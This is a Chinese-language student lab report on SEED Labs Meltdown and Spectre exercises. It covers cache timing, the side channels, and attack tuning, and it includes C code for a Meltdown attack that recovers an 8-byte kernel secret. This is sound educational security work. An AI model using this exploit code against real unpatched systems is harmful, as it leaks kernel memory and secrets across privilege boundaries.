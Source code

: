 # Lab2

## MeltDown

### Task 1: Reading from Cache versus from Memory
根据实验提示，我们可以看见，已经存储在 CPU cache 中的数据访问为60 CPU cycles 左右,而访问主存中的数据则在250 CPU cycles 左右：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102242149.png)

### Task 2: Using Cache as a Side Channel
通过实验原理，提前访问过的元素将存储在 CPU cache 中，我们可以轻松地通过时间不同将其分辨：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102242396.png)

### Task3: Place Secret Data in Kernel Space
根据实验，已经提前给了我们 secret 的地址，我们只需要提前使用一次 secret  将其存入 CPU cache，然后通过时间差得出：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102243977.png)

### Task4: Access Kernel Memory from User Space
显而易见地，我们编写 test.c，填上刚刚获得的 secret 地址，成功地失败了：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102258542.png)
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102244599.png)

###  Task 5: Handle Error/Exceptions in C

通过课堂讲解和实验原理，我们可以在没有 try-catch 组件的 C 语言中利用 signal 函数构造出类似场景，运行代码结果如下，确实避免了同 Task4 的一样的系统报错：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102258922.png)

### Task 6: Out-of-Order Execution by CPU
根据实验原理，通过 Task 1 & 2 & 5 我们可以实现一次 Meltdown 的攻击实验，在乱序执行的漏洞下，将秘密信息存入 CPU cache 中，通过 cache 和 main memory 的访问时间不同来识别：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102258552.png)

### Task 7: The Basic Meltdown Attack

####  Task 7.1: A Naive Approach
将 7 换成 kernel_data 后，无法运行,原因是乱序执行速度没跑过 access check 的速度：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102259907.png)

####  Task 7.2: Improve the Attack by Getting the Secret Data Cached

在乱序执行前加上一个读写文件的操作以此想让乱序执行更快，但仍然起不到作用：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102259129.png)

####  Task 7.3: Using Assembly Code to Trigger Meltdown

再通过添加 asm 代码，开始有机会赢了这场赛跑：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102259285.png)

### Task 8: Make the Attack More Practical

通过运行代码，我们可以看到，secret 的值的统计次数为接近1000：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102259711.png)

简单修改代码，使其输出8 byte 的秘密信息：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102300242.png)
代码如下，主要修改了 main.c ，将其循环8次，并重置scores数组即可。
```c

int getsecret(int add)
{
  int i, j, ret = 0;
  
  // Register signal handler
  signal(SIGSEGV, catch_segv);

  int fd = open("/proc/secret_data", O_RDONLY);
  if (fd < 0) {
    perror("open");
    return -1;
  }
  
  memset(scores, 0, sizeof(scores));
  flushSideChannel();
  
	  
  // Retry 1000 times on the same address.
  for (i = 0; i < 1000; i++) {
	ret = pread(fd, NULL, 0, 0);
	if (ret < 0) {
	  perror("pread");
	  break;
	}
	
	// Flush the probing array
	for (j = 0; j < 256; j++) 
		_mm_clflush(&array[j * 4096 + DELTA]);

	if (sigsetjmp(jbuf, 1) == 0) { meltdown_asm(add); }

	reloadSideChannelImproved();
  }

  // Find the index with the highest score.
  int max = 0;
  for (i = 0; i < 256; i++) {
	if (scores[max] < scores[i]) max = i;
  }

  printf("The secret value is %d %c\n", max, max);
  printf("The number of hits is %d\n", scores[max]);

  return max;
}

int main(){
	int add = 0xf9175000;
	int max[8]={0};
	for(int i=0;i<8;i++){
		max[i]=getsecret(add+i);
		for(int j=0;j<256;j++) scores[j]=0;
	}
	printf("The secret 8 byte value is %c%c%c%c%c%c%c%c\n",max[0],max[1],max[2],max[3],max[4],max[5],max[6],max[7])
}
```

结果为 `SEEDlabs`。

## Spectre

### Task 1: Reading from Cache versus from Memory

通过运行所给代码，我们可以看出 Cache 和 Memory 的读取时间差别很大：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102216675.png)

### Task 2: Using Cache as a Side Channel

将 `CACHE HIT THRESHOLD` 设为200，运行代码可以得到：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102242453.png)

###  Task 3: Out-of-Order Execution and Branch Prediction
运行实验所给代码，有：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102300313.png)
- Comment out the line marked with ✰ and execute again. Explain your observation. After you are
done with this experiment, uncomment it, so the subsequent tasks are not affected.
- Replace Line ➃ with victim(i + 20); run the code again and explain your observation.

对于以上两个任务，修改后，发现都无法正常输出原结果，第一个是因为未清除缓存，无法判断；第二个是因为无法进入 IF ,无法乱序执行:
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102300680.png)

### Task 4: The Spectre Attack

通过更改实验代码，多次运行，发现由于侧噪声过多，效果不好，最好的一次获取了前三个Secret:
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102300452.png)

### Task 5: Improve the Attack Accuracy & Task 6: Steal the Entire Secret String

更改休眠时间为5，结果出错：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102300332.png)
更改休眠时间为15，结果正确：
![](https://raw.githubusercontent.com/Zhuhai0247/blog-img/master/202210102300043.png)

另外由于使用的是16版本的内核，故星号不影响结果。

问题：在hit单个字符时hit值很大，多字符时却很小，更改HIT变量也没有好转。

故最后结果为`Some Secret Value`。